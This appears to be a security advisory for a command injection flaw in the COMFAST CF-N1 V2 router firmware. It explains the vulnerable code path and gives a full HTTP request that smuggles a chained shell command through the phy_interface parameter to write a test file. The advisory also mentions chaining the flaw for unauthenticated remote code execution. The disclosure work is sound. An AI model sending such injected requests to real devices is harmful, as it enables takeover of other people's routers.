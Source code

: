 # COMFAST CF-N1 V2 V2.6.0 Command Injection in `multi_pppoe`

PS:

1.Setting up the environment using tools like qemu may be difficult; it is recommended to purchase a physical device.

2.This vulnerability can be combined with CVE-2022-45724 to achieve unauthenticated RCE.

## Overview

A command injection vulnerability exists in the COMFAST CF-N1 V2 (firmware V2.6.0) within the `multi_pppoe` API (`/usr/bin/webmgnt`, function `sub_42FF1C`). Attackers can inject arbitrary commands via the `phy_interface` parameter when using the `one_click_redial` action, enabling unauthorized execution of system commands, access to sensitive information, or full compromise of the device.



![PoC Result: Command Execution Proof](./imgs/0.png)

## Details



*   **Vendor**: COMFAST

*   **Vendor Website**: [http://www.comfast.cn/](http://www.comfast.cn/)

*   **Product**: COMFAST CF-N1 V2

*   **Firmware**: V2.6.0

*   **Firmware Download**: [http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)

*   **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=multi_pppoe`

*   **Vulnerability**: Command Injection

*   **CVE ID**: Pending

*   **Impact**: Execute arbitrary system commands, read sensitive files, or take full control of the device.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability originates in the `sub_42FF1C` function handling the `multi_pppoe` configuration. Disassembly analysis shows that the `phy_interface` parameter is unsanitized and directly incorporated into system commands via `sprintf_0` when the `action` is set to `one_click_redial`.

Key code flow:



1.  User input (including `phy_interface`) is parsed via `blobmsg_parse_0` and extracted as a configuration parameter.

2.  When `action` is `one_click_redial`, the `phy_interface` value is inserted into a command string using `sprintf_0` (e.g., constructing `ifdown %s; ifup %s` or similar network interface commands).

3.  The constructed command is executed via `system_0` without input sanitization, allowing injection of arbitrary commands through delimiters like `&&`, `;`, or `|`.

This direct concatenation of unvalidated input into executable commands enables attackers to break out of the intended command context and execute malicious code.



![Disassembly Snippet: Vulnerable Code Path](./imgs/1.png)



![Command Construction Flow](./imgs/2.png)

## Proof of Concept (PoC)

### PoC: Inject Command to Write Test File



```
POST http://192.168.0.1/cgi-bin/mbox-config?method=SET&section=multi_pppoe HTTP/1.1
Host: cflogin.cn
Content-Length: 105
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Content-Type: appliation/json
Origin: http://cflogin.cn
Referer: http://cflogin.cn/index.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=6501a8c0-ffffffc40f08ffffffaaffffff82fffffff0-2c28fa16
Connection: close

{"action":"one_click_redial","phy_interface":"br-wan && echo pppoe > /www-comfast/test.txt","real_num":1}
```



*   **Notes**: The vulnerable parameter is `phy_interface`, exploited using `&&` to chain an additional command.

*   **Steps**:

1.  Send the POST request using tools like Burp Suite or `curl`.

2.  Access `http://cflogin.cn/test.txt` to verify command execution.

*   **Result**: The file `/www-comfast/test.txt` is created with the content "pppoe", confirming successful injection.



![PoC Execution Result](./imgs/3.png)
